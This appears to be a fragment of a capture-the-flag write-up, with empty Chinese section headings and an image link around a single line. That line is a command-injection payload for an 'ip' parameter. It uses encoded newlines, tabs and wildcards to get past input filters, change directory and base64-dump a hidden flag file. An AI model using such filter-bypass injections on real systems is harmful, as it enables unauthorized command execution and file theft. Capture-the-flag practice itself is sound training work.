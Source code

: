 # 知识点
# 思路
```bash
?ip=%0acd%09fla?_is_here%0abase64%09fla?_9399196805873.php
```
![image.png](./images/20231017_2350286419.png)
